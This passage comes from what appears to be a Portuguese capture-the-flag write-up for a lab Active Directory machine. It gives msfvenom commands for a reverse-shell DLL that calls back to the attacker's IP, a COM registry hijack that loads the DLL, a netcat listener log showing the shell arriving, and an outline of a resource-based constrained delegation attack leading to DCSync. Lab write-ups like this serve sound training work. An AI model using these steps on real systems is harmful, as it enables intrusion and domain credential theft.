 {{< alert >}}
**Caso você não consiga alterar a senha dele ou iniciar uma reverse shell com o `RunasCs`, tente remover ele do grupo `Protected Objects` novamente.**
{{< /alert >}}

### Realizando o DLL hijacking para obter o MM.TURNER

Agora que estamos com o usuário e a permissão de editar a DLL que encontramos anteriormente, iremos gerar um payload de reverse shell. Estarei usando o `Msfvenom` para isso:
```bash
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=10.10.14.228 LPORT=5555 -f dll -o revshell.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1867 bytes
Final size of dll file: 9216 bytes
Saved as: revshell.dll
```

Salvei essa DLL na pasta `C:\Windows\Tasks\revshell.dll`, agora é só alterar o valor do registro e esperar a shell cair:
```bash
Set-ItemProperty -Path "HKLM:\SOFTWARE\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" -Name "(Default)" -Value "C:\windows\tasks\revshell.dll"
```

```bash
rlwrap nc -lvnp 5555
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::5555
Ncat: Listening on 0.0.0.0:5555
Ncat: Connection from 10.10.11.75.
Ncat: Connection from 10.10.11.75:57212.
Windows PowerShell running as user mm.turner on DC
Copyright (C) Microsoft Corporation. All rights reserved.

whoami
rustykey\mm.turner
PS C:\Windows> 
```

### Realizando o RCBD para obter o BackupAdmin

Voltando para o `Bloodhound` e analisando o **MM.TURNER**, vemos que ele faz parte do grupo `DELEGATION MANAGER` o que permite adicionarmos a permissão `msDS-AllowedToActOnBehalfOfOtherIdentity` em contas de serviços.

Analisando o nosso cenário atual, ja possuimos a conta de serviço `IT-Computer3$`, e existe um usuário chamado `BackupAdmin` no AD que possui a permissão de `DCSync`. Tendo isso em mente, podemos tentar um ataque de `RBCD` (Resource-based Constrained Delegation). Esse [hacktricks](https://angelica.gitbook.io/hacktricks/windows-hardening/active-directory-methodology/resource-based-constrained-delegation#new-concepts) explica detalhadamente esse ataque, mas resumindo aqui: Iremos adicionar uma permissão chamada `msDS-AllowedToActOnBehalfOfOtherIdentity` no "computador" `DC` que permitirá a conta `IT-Computer3$` "fingir" ou "fazer" coisas no nome do `DC`, ou seja, iremos impersonar o `DC` e gerar um TGS no nome do `BackupAdmin` e rodar `DCSync`.
